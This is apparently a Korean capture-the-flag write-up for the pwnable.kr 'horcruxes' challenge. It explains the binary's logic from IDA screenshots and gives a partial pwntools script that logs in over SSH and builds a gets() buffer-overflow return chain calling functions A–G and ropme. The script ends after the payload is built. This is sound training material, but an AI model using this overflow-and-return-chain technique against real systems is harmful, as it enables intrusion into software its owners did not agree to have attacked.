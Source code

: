 gdb로 보기 힘드니 ida를 통해서 보면 어떤값과 비교하는 지 알 수 있다. 먼저 파일을 다운받자.

```sh
scp -P 2222 horcruxes@pwnable.kr:horcruxes ./
horcruxes@pwnable.kr's password:
horcruxes                                                                             100%   12KB  49.6KB/s   00:00
```

ropme함수에서 비교되는 데이터는 sum이라 칭해진다.

![](images/2022-01-04-16-46-45.png)

이는 init_ABCDEFG함수에서 7개의 변수들의 합과 같다.

![](images/2022-01-04-16-46-52.png)

gets에서 overflow를 일으켜서 A ~ G함수를 호출하여 각 변수들을 구하고, 다시 ropme함수를 호출해서 구한 값들을 더해서 전달하자.

먼저 ret전까지 전달해야할 더미 크기는 ebp - 0x74 + sfp만큼이다.

![](images/2022-01-04-16-47-01.png)

먼저 A ~ G까지 함수의 출력 포맷부터 알아보자.

```python
from pwn import *

s = ssh(user='horcruxes', host='pwnable.kr', port=2222, password='guest')
p = s.process("./horcruxes")

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')

A = 0x0809fe4b
B = 0x0809fe6a
C = 0x0809fe89
D = 0x0809fea8
E = 0x0809fec7
F = 0x0809fee6
G = 0x0809ff05
ropme = 0x080a0009

payload = b'A' * (0x74 + 0x4)
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(ropme)
```